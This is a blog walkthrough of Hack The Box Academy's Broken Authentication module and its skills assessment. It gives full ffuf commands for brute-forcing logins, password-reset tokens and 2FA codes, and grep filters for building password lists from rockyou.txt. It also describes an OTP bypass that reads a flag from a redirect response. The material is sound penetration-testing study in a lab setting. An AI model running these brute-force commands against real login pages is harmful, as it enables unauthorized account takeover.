 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Broken Authentication"
description: "Explore this detailed walkthrough of Hack The Box Academy's Broken Authentication module. Learn effective techniques to perform login brute-force attacks, authentication bypass techniecues, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-31 11:50
image:  /images/htb/broken-auth/logo.png
tags:   [authentication,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/80">Broken Authentication</a><br/>
<a href="https://jacozwarts.github.io/images/htb/broken-auth/Broken_Authentication_Module_Cheat_Sheet.pdf">Broken Authentication - Cheat Sheet</a><br/>
<a href="https://www.cirt.net/passwords">CIRT.net - Default Passwords</a><br/>

<br/>

## Notes:

### Create custom wordlists by using grep and rockyou.txt
```
grep '[[:upper:]]' /usr/share/wordlists/seclists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
#### `Count number` of line in file:

```
wc -l custom_wordlist.txt
```

#### Using `ffuf` with POST:
```
ffuf -w ./custom_wordlist.txt -u {TARGET} -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

#### Use seq to generate pins:

```
seq -w 0 9999 > tokens.txt
```

#### Extract details from csv:
```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

#### Using ffuf with GET:
```
ffuf -w ./tokens.txt -u http://{TARGET}/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

#### Using ffuf with Session-Token:
```
ffuf -w ./tokens.txt -u http://{TARGET}/{ENDPOINT} -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

### Explore the App’s Main Features
First, let’s check out the app's basic functions. We see options for logging in and registering, so let’s start by creating a test account with details `Test:Test`

### Make Note of Password Requirements
During registration, the app shows us its password criteria. Let’s keep that in mind—this info will come in handy when we need to create a custom wordlist for brute-forcing later.

![Password Criteria](/images/htb/broken-auth/skills-assessment-password-criteria.png)


### Log In with Our Test Account
Create an account using `Test:Password1234`. Now that we’ve got the account set up, let’s log in. Success! We’re redirected to profile.php.

### Spot the Restricted Access Message
On the profile page, we see a message saying, `"You do not have admin privileges. The site is still under construction and only available to admins at this time."` Since no other features are available, it’s clear that admin access will be the key to progressing further.

![Profile Page](/images/htb/broken-auth/skills-assessment-profile-page.png)

### Experiment with Brute-Forcing Admin Login
Let’s test the login form to understand how it responds to different credentials:

First, we try `admin:admin`, which gives us an `"Unknown username and password"` error.
Next, we use our account's username `Test` with an incorrect password, which returns `"Invalid Credentials"`.
Now we know what specific error messages to look for, giving us a way to validate results in our brute-force attempt.

### Pick Wordlists for the Brute-Force Attack
To find the correct username, we’ll start by using `seclists/Usernames/xato-net-10-million-usernames.txt`.
Once we have a valid username.

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://{TARGET}:{PORT}/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=1" -fr "Unknown username or password."
```

### Creating the password wordlist

To target the login credentials more efficiently, we’ll build a custom password list that meets the `password criteria` we noted earlier. We’ll start with `rockyou.txt` and use `grep` to filter only the passwords that match the format.

Grep function to extract passwords from wordlist:

```
grep -E '^[[:alnum:]]{12}$' /usr/share/wordlists/rockyou.txt | grep -E '[0-9]' | grep -E '[a-z]' | grep -E '[A-Z]' > passwords.txt
```

### Launch the Brute-Force Attack
Now that we have a wordlist tailored to the password criteria, we’re ready to begin our brute-force attack to find valid credentials. Using the `username` we found earlier and custom password wordlist, we’ll brute-force the login until we find the valid credentials.

Find valid credentials:
```
ffuf -w passwords.txt -u http://{TARGET}:{PORT}/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username={username}&password=FUZZ" -mc 302
```

### Handle the OTP Prompt
Once we’ve successfully logged in with the valid credentials, we’re met with an OTP prompt. However, there’s no indication of how long the OTP pin should be, which means we can’t effectively brute-force the OTP. This prompts us to consider alternative methods for bypassing the OTP.

![OTP Page](/images/htb/broken-auth/skills-assessment-password-otp.png)

### Attempt Direct Access to `profile.php`
Since we identified `profile.php` earlier when logged in with our `Test` account, let’s try directly accessing this page using the valid credentials we found. This time, the UI redirects us to an OTP page (2fa.php). Here, we notice a 302 redirect response from profile.php. Upon investigating this `302` request more closely, we can spot the flag embedded within the request itself.

![Profile Page](/images/htb/broken-auth/skill-assessment-redirect-request.png)


<hr/>